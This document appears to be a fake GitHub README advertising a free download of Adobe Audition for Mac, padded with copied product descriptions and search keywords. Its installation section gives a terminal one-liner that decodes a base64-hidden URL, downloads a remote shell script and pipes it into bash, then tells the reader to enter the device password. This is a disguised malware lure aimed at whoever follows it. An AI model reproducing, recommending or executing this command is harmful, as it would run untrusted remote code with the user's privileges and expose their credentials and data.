 # Audition Download Mac - Professional Audio Editing Software for macOS 

![Audition Screenshot 1](https://imag.malavida.com/mvimgbig/download-fs/adobe-audition-8379-1.jpg)

---

### 🔽 Download Audition for Mac

[![Download Now](https://img.shields.io/badge/Download_Audition-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/audition)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Audition for Mac?

Adobe Audition is a top-tier digital audio workstation (DAW) developed for macOS, delivering an all-in-one solution for recording, editing, mixing, and mastering audio. Trusted by podcasters, musicians, sound engineers, and filmmakers, Audition enables users to produce studio-quality audio with its powerful editing tools and intuitive workflow. The software features a multitrack timeline, detailed waveform and spectral analysis, and an extensive library of audio effects, making it an essential tool for professional audio post-production.  

As part of Adobe Creative Cloud, Audition integrates smoothly with other Adobe apps like Premiere Pro and After Effects, streamlining workflows for video and audio projects. It supports a broad range of audio formats, including WAV, MP3, AIFF, and more, while offering real-time editing capabilities like clip stretching, pitch shifting, and dynamic range compression. Additionally, Audition’s advanced noise reduction and audio restoration tools help eliminate background hiss, clicks, and other imperfections, ensuring crystal-clear recordings every time.  

With a fully customizable workspace, users can arrange panels and tools to fit their specific needs, enhancing efficiency for any audio task. Whether you're fine-tuning a podcast, composing music, or restoring vintage recordings, Adobe Audition provides the precision, speed, and versatility required for professional audio production on Mac.

![Audition Screenshot 2](https://insmac.org/uploads/posts/2019-11/1573112516_audition-2020_01.jpg)

---

## Key Features & Benefits

- 🎤 Professional audio editing and mixing tools  
- 🎧 Multitrack and waveform editing  
- 🔊 Advanced noise reduction and audio restoration  
- 🎵 Real-time clip stretching and pitch shifting  
- 🎼 Seamless integration with Adobe Creative Cloud  
- 🎚 Customizable workspace for optimal workflow  

Whether you're editing podcasts, music, or film audio, Audition delivers unmatched precision and creative control.

---

## 🔍 Keywords

Audition for Mac, Audition Mac Download, Audition for Mac Download, Audition Mac, Audition Download Mac, Audition Download for Mac, Audition full version, Mac Download Audition, Download Mac Audition, Download Audition Mac, Download Audition for Mac
